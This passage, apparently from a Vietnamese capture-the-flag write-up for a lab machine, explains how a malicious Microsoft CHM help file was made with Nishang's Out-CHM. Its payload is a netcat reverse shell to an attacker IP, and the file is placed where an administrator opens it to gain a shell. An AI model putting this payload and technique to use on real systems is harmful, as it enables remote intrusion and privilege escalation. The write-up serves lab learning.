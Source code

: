 Theo Wikipedia:

> Microsoft Compiled HTML Help là một định dạng trợ giúp trực tuyến độc quyền của Microsoft, bao gồm một tập hợp các trang HTML, một chỉ mục và các công cụ điều hướng khác. Các tệp được nén và triển khai ở định dạng nhị phân với phần mở rộng là .CHM, dành cho HTML được biên dịch. Định dạng thường được sử dụng cho tài liệu phần mềm

Vì vậy, bây giờ mọi thứ đang bắt đầu nhấp vào:

1. Quản trị viên / Giám đốc điều hành đang mong đợi tài liệu 
2. Tệp hướng dẫn.chm là một tệp html đã biên dịch được sử dụng để làm tài liệu

Tôi nhớ đã đọc về các tệp CHM độc hại một thời gian trước, vì vậy tôi đảm bảo mở tệp trong một máy ảo Windows riêng biệt:

![20](https://snowscan.io/assets/images/htb-writeup-sniper/instructions.png)

Tác giả đã thực hiện một số nghiên cứu và phát hiện ra công cụ [Nishang Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) có thể tạo ra tải trọng độc hại. Tác giả có thể yêu cầu RCE làm quản trị viên với tệp độc hại này.

## Tạo tệp CHM độc hại để nâng cấp đặc quyền
Sau khi cài đặt Hội thảo trợ giúp HTML trên máy Windows của mình, tác giả đã tạo một tệp CHM độc hại sử dụng netcat để tạo ra một trình bao ngược:

```powershell
PS > Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.11 3333" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```
Đã tải nó lên máy chủ…

```powershell
*Evil-WinRM* PS C:\docs> copy \\10.10.14.11\test\doc.chm .
```
Và bùng nổ, có một shell với tư cách là `quản trị viên`:

![21](https://snowscan.io/assets/images/htb-writeup-sniper/root.png)

## Thanks :D
